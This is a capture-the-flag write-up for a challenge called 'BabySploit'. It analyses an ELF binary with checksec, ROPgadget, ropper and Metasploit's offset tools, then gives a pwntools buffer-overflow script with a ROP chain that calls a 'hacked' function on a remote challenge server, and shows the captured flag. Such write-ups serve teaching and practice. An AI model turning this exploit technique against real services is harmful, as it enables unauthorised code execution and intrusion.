








### BabySploit

Task:  

```bash
nc 78.40.108.21 1338
```

of find binary in attachment.     

### analyze

First, we will check, what file we got using the `file`:    

```bash
file ./babysploit
```

     

Our file is an `ELF` file, which means Executable and Linkable Format and is the most common format
for executables and shared libraries (`.so` files) on `UNIX` systems. Dynamic linking allows the binary to be
smaller, at the expense of having to ensure that the required dependencies exist in the target system that
the binary will be executed in.     

The `checksec` command shows us, the security aspects of the binary:    

```bash
checksec ./babysploit
```

    

### exploitation

As we can see, `NX` is enabled. If `NX` is enabled, the stack is usually not executable, so you can only read and
write from that section.    

Use `ROPGadget` to find the instructions:

```bash
ROPgadget --binary ./babySploit | grep "pop rdi ; ret"
```

    

or via `ropper`:    

```bash
ropper --file ./babySploit --search "pop rdi; ret"
```

    

```bash
ropper --file ./babySploit --search "pop rsi; ret"
```

    

Find offset:    

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

     

```bash
run
x/xg $rsp
pattern_offset 0x413b414144414128
```

     

So, solution via python3 `pwntools`:    

```python
from pwn import *

exe = ELF('./babySploit')
context.binary = exe

p = remote('78.40.108.21', 1338)
# p = gdb.debug('./babySploit', '''continue''')

pop_rdi = 0x401196
pop_rsi = 0x401198
hacked = exe.symbols['hacked']
p.sendline(b'A' * 24 + p64(pop_rdi) + p64(0xdeadbeefdeadbeef) + p64(pop_rsi) + p64(0xc0debabec0debabe) + p64(hacked))

p.interactive()
```

Check:    

```bash
python3 babysploit.py
```

    

Flag:    

```bash
nrzCTF{Y0U_H4V#_G00D_PrOGRESS}
```

*NX: - The NX (do not execute) bit is a technology used in CPUs that guarantees that certain memory
areas (such as the stack and heap) are not executable, and others, such as the code section, cannot
be written. It basically prevents us from using simpler techniques like we wrote a shellcode in the stack and then executed it.*    

